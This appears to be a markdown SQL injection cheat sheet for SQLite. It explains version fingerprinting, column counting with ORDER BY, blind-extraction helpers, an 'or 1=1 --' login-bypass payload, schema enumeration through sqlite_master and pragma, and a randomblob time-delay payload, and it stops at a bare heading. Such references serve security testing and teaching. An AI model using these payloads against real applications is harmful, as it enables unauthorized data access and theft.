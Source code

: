 ## SQLite engine

* #### Database version
You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.
* ```sqlite_version()```
```
#example
select sqlite_version()
```

* #### String concatenation
You can concatenate together multiple strings to make a single string.
* ```||```
* ```CONCAT('Hello', ' ', 'World')```
```
#example
SELECT 'Hello' || ' ' || 'World';
SELECT CONCAT('Hello', ' ', 'World');
```

* #### Substring
You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string ```e```.
* ```substr('Hello World',2,1)```
```
#example
select substr(name,2,1) from demo;
```
* ### Finding the number of columns
ORDER BY is essential in SQL injection to determine the number of columns in a vulnerable query. It helps identify injectable columns for UNION SELECT attacks and can be combined with boolean or time-based techniques to extract data. This makes it a key step in structuring successful SQLi exploitation
```
#example
#Original Query
select id,name,role from users

#Identify number of columns
select id,name,role from users order by 3 -- the database engine will run it correctly, because the number of columns in the original query is 3 id, name and role

select id,name,role from users order by 4 -- the database engine will return an error, because there is not a column #4, this tell us that the original query is returning only 3 columns
```

* ### Extracts an specific row
For Blind SQL injection we have to ensures that only the first or a specific row of a query result is returned, making it useful for blind SQLi when extracting data character by character.
* ```LIMIT 1,1```
```
#example
select username from users LIMIT 1,1; -- Returns the second user
```

* #### Length
You can extract the string length, this command allow to know the length for a specific row, Note that you need to combinate it with ```order by``` or ```Limit``` command for Blind SQL injection
* ```LENGTH('hello world')```
```
#example
select LENGTH(name) from demo;
```

* #### Comments
You can use comments to truncate a query and remove the portion of the original query that follows your input.
* ```--```
* ```/* comment */```
```
#example
select username from users where username='admin' or 1=1 -- {this will be ignored}' and password='s3cr3t';
```

* #### Database list
You can list the database that exist in the sqlite server.
```
#example
#Count databases
SELECT count(name) FROM pragma_database_list;

#Recover databases name
SELECT name FROM pragma_database_list;
```

* #### Database contents
You can list the tables that exist in the database, and the columns that those tables contain.
```
#example
#Count tables
SELECT count(name) FROM sqlite_master WHERE type = 'table';

#Recover tables name
SELECT name FROM sqlite_master WHERE type = 'table';

#Count columns from table 'demo'
SELECT count(name) FROM pragma_table_info('demo');

#Recover columns from table 'demo'
SELECT name FROM pragma_table_info('demo');
```


* #### Time delays
You can cause a time delay in the database when the query is processed. This can slow down execution by generating a large random blob (it may crash SQLite)
```
SELECT length(randomblob(900000000));
```

* #### Conditional time delays
You can test a single boolean condition and trigger a time delay if the condition is true.






